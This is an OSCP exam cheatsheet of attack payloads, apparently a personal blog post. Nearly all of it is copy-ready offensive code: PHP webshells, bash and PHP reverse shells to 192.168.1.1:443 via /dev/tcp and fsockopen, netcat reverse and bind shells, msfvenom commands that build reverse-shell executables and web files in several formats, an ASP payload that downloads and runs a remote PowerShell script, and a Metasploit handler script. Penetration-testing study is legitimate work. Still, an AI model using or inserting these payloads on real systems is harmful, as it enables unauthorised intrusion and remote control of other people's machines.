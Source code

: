 ```yaml
---
title: Payloads
author: linatl
category: "OSCP"
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Webshells
```
Kali ready-to-go webshells
/usr/share/webshells/
/usr/share/seclists/Web-Shells/

PHP code for a simple web shell:
<?=`$_GET[0]`?>
<?php echo shell_exec($_GET['cmd']); ?>
<?php $cmd=$_GET['cmd']; system($cmd);?>

PHP to immediately pop a shell (linux-only)
<?php $sock=fsockopen("192.168.1.1",443); exec("/bin/sh -i <&3 >&3 2>&3");?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/443 0>&1'");?>
```

###### Pop a shell from command line
```
Bash
> bash -i >& /dev/tcp/192.168.1.1/443 0>&1

Netcat
> nc -e /bin/bash 192.168.1.1 443
```

###### Ready-to-go reverse shell payloads
```
Nishang
https://github.com/samratashok/nishang

PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings

Pentestmonkey Cheatsheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Shell Spawning with NetSec
https://netsec.ws/?p=337
```

###### List msfvenom payload options
```
> msfvenom -l payloads | grep php
> msfvenom -l archs
> msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
> msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```


###### .exe reverse shell
```
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### PHP reverse shell
```
> msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php

Need to add the <?php at the first line of the file so that it will execute as a PHP webpage.
```

###### .elf reverse shell
```
x86
> msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
```

###### .sh reverse shell
```
> msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```

###### Some more reverse shells
```
.asp
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Simple ASP(X?) payload without importing additional libraries
```
<%
Set s = CreateObject("WScript.Shell")
Set cmd = s.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.10.10:80/InvokePowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
>
```

###### Netcat reverse shell
```
Set up a listener
 > nc -nvlp 443

Connect to the listener (Windows)
 > nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
 > nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 > nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 > nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
> nc -nv 192.168.1.1 443
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
